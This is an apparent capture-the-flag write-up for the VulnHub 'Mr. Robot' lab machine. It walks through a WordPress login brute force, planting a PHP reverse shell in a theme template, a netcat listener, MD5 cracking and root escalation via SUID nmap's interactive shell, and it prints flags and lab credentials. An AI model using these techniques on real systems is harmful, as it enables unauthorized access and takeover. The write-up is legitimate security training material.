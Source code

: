 # My writeup for MR. ROBOT machine
Machine link: https://www.vulnhub.com/entry/mr-robot-1,151/

Let's get started with nmap scan. I found three ports open for ssh, http, https

![nmap](https://github.com/moataz-bellah/writeups/assets/47069499/12744873-28e5-4421-a54b-483987e7d9db)
# Enumerate the website on port 80
When i explore a webiste i always start with /robots.txt to see unwanted paths

![robots](https://github.com/moataz-bellah/writeups/assets/47069499/4fafa00f-d27f-45c4-b6c4-d03ed1b97a38)
Here we it is, we found flag 1 and an interesting file "fsosity.dic"
Going to /key-1-of-3.txt and we have flag 1 073403c8a58a1f80d943455fb30724b9
![flag1](https://github.com/moataz-bellah/writeups/assets/47069499/035767d7-e45d-4ac7-a2c8-fa83cc9ed8aa)
Let's check fsosity.dic later and continue enumeration. I did directory busting
```
sudo dirb http://192.168.0.105
```
I a lot of directories but i want to focus on three directories
```
http://192.168.0.105/0/
http://192.168.0.105/wp-admin/login
http://192.168.0.105/admin/robot
```
As we see it is a wordpress app. I went to /0/ and found a normal page has nothing to look for, so let's move to /wp-admin/login
First thing i tried is login with default credentials of wordpress but i didn't work. However i noticed somthing interesting.
![invalid_username](https://github.com/moataz-bellah/writeups/assets/47069499/d629ec5e-da2c-4333-bbc5-187baaaf0668)
As we see it tells me invalid username which means that page has poor validation. We can take advantage of that and brute force the username
and password. Back to fsocity.dic and explore it.
```
sort fsocity.dic | uniq > wordlist
true
false
wikia
from
the
now
Wikia
extensions
scss
window
```
It has random words it seems to be a dictionary of usernames or passwords
I checked to wordcount of the file
```
cat fsocity.dic | wc -l
858160
```
Let's see if that file has duplicates
```
sort fsocity.dic | uniq | wc -l
11451
```
As we see, we have a lot of duplicates. I created a new instance of that file without duplicates 
```
sort fsocity.dic | uniq > wordlist
```
Now we have a wordlist, let' see if it has username or password we can use to login.
Back to the login page, i tried a random username "elliot" and i was lucky.
![login](https://github.com/moataz-bellah/writeups/assets/47069499/e7c29d49-c17d-4369-a790-bddd6c0ced75)
That tells us the username we entered is correct and we just need to brute force the password
I wrote a python script to brute force the username and password
- Script to brute force username
![username_script](https://github.com/moataz-bellah/writeups/assets/47069499/3d325f5f-9a0e-4c51-89e0-1fe1b4dd175f)
- Script to brute force password
![password_script2](https://github.com/moataz-bellah/writeups/assets/47069499/877e92cf-5bb8-44f4-b2bd-c659336ed281)
After running the scripts we have the username: "elliot" and password: "ER28-0652". Let's login using these credentials
![dashboard](https://github.com/moataz-bellah/writeups/assets/47069499/cf3bfb4c-a19f-46e6-bd63-86ac486f31cd)
I was exploring the dashboard trying to find anything useful but i didn't. So i did some research about ideas to get reverse shell in wordpress
and i found that great resourse https://www.hackingarticles.in/wordpress-reverse-shell/
According to that link i went to appearance, then editor.
![reverse_shell2](https://github.com/moataz-bellah/writeups/assets/47069499/a02ef163-13f2-4bfd-b7a7-3beed04d069f)
1: I looked for a php reverse shell online, and i put it inside the editor

2: Changed templates to 404 Template  

![reverse_shell](https://github.com/moataz-bellah/writeups/assets/47069499/20358daa-4e05-4470-85dd-b509e78c95ed)

3: Update File  

To get reverse shell we need to visit http://192.168.0.105/wp-content/themes/twentyfifteen/404.php. But before that we need to
listen to any incoming connection
```
sudo nc -nvlp 4444
```
Now we execute the shell by visiting /wp-content/themes/twentyfifteen/404.php, and yeah we got a shell
![shell](https://github.com/moataz-bellah/writeups/assets/47069499/f21a4844-6fae-4b19-82ef-4b642bab8eb8)
Let's switch to pty
```
python -c 'import pty; pty.spawn("/bin/sh")'
```
Our current user is daemon. Let's visit /home
```
cd /home
ls
robot
```
See what inside robot
```
ls robot
key-2-of-3.txt  password.raw-md5
```
We have flag 2 but our user doesn't have permission to open, so we need to switch to robot user. Look we have interesting file password.raw-md5
```
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```
We have a username and a hashed password. Let's try to crack that hash. I tried that website and it worked https://crackstation.net/
and that is the cracked hash is abcdefghijklmnopqrstuvwxyz. Let's switch to robot using that password
```
su robot
Password: abcdefghijklmnopqrstuvwxyz
robot@linux:~$
```
Yeah we are robot, and now we can read flag 2 
```
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```
# Privilege Escalation
After some research i found something called suid, that is something allows users executes files using the privileges of the owner of file.
Using that feature we can look for files that have setuid permission and owned by root user, so we can execute on of these files using privileges of root. 
That command below shows which files have suid permission.
```
robot@linux:/$ find / -perm -4000 -type f 2>/dev/null
find / -perm -4000 -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```
the option -perm -4000 means files has suid permession.According to shown results, we have many files, but i want to focus on nmap.
I made a quick research on nmap and if we can get privilege escalation and i found that good link https://vk9-sec.com/nmap-privilege-escalation/  
```
robot@linux:/$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap>
```
I tried command !bash and didn't work, but when i tried !sh it worked
```
nmap> !sh
!sh
# whoami
root
#
```
Now we are root
Let't get the flag
```
# cd root
# ls
firstboot_done  key-3-of-3.txt
# cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```
Machine is done
